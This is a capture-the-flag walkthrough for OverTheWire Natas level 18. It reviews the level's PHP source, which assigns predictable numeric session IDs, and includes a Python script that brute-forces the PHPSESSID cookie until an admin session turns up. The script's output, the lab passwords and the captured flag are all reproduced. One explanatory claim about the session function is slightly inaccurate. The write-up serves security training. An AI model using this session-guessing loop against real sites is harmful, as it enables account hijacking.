

# Level 18
## What does the page look like?
```html
$ curl -s --user natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP http://natas18.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">

<p>
Please login with your admin account to retrieve credentials for natas19.
</p>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Source code
```html
$ curl -s --user natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP http://natas18.natas.labs.overthewire.org/index-source.html | html2text 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/
css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-
ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/
wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></
script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "<censored>" };</
script></head>
<body>
<h1>natas18</h1>
<div id="content">
<?

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /
* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
/* }}} */
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
/* }}} */
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE
["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION
["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
/* }}} */

$showform = true;
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists
("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
} 

if($showform) {
?>

<p>
Please login with your admin account to retrieve credentials for natas19.
</p>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

When we log in, we notice the creation of a session cookie (`PHPSESSID`) which has a value that is randomly set with a maximum of `640`.



This cookie is created when the page is created with the call to the `createID()` function:

```php
session_id(createID($_REQUEST["username"]));
```

What is interesting to see here is that the username (the one passed to the POST request) is sent as an argument to the function, but the argument (`$user`) is not used anywhere in the function.

```php
function createID($user) {
    global $maxid;
    return rand(1, $maxid);
}
```

Whatever we put in the `username` field will create a random session cookie.

Now, obviously, we need to call the `print_credentials()` function which will reveal the flag if `$_SESSION["admin"]` equals `1`:

```php
function print_credentials() {
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION
["admin"] == 1) {
	    print "You are an admin. The credentials for the next level are:<br>";
	    print "<pre>Username: natas19\n";
	    print "Password: <censored></pre>";
	    } else {
	    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
```

This function is called when the page loads, if `my_session_start()` returns `true`:
```php
if(my_session_start()) {
    print_credentials();
    $showform = false;
}
```

The problem is that the `my_session_start()` function will return `true` only if `$_SESSION["admin"]` is set.

```php
function my_session_start() {
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE
["PHPSESSID"])) {
	    if(!session_start()) {
	        debug("Session start failed");
	        return false;
	    } else {
	        debug("Session start ok");
	        if(!array_key_exists("admin", $_SESSION)) {
		        debug("Session was old: admin flag set");
		        $_SESSION["admin"] = 0; // backwards compatible, secure
	        }
	        return true;
	    }
    }
    return false;
}
```

## Scripting
With the previous analysis done, we now have an idea of what to do. If we can find the session ID of the admin (between 0 and 640), we should be able to be logged in as the admin. Let's brute force it in python:

```python
#!/bin/python3
import requests

user = 'natas18'
passwd = 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'
target = 'http://natas18.natas.labs.overthewire.org'

for i in range(641):
    r = requests.get(
    	target,
    	auth=(user, passwd),
    	cookies={'PHPSESSID': str(i)}
    	)
    print("[REQUEST] PHPSESSID=%s" % i)
    if 'You are an admin' in r.text:
        print(r.text)
        break
```

Below is the output:
~~~
$ python findsession.py 
[REQUEST] PHPSESSID=0
[REQUEST] PHPSESSID=1
[REQUEST] PHPSESSID=2
[REQUEST] PHPSESSID=3
[REQUEST] PHPSESSID=4
[REQUEST] PHPSESSID=5
[REQUEST] PHPSESSID=6
[REQUEST] PHPSESSID=7
...
[REQUEST] PHPSESSID=115
[REQUEST] PHPSESSID=116
[REQUEST] PHPSESSID=117
[REQUEST] PHPSESSID=118
[REQUEST] PHPSESSID=119
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
You are an admin. The credentials for the next level are:<br><pre>Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
~~~

# Flag
~~~~
natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
~~~~
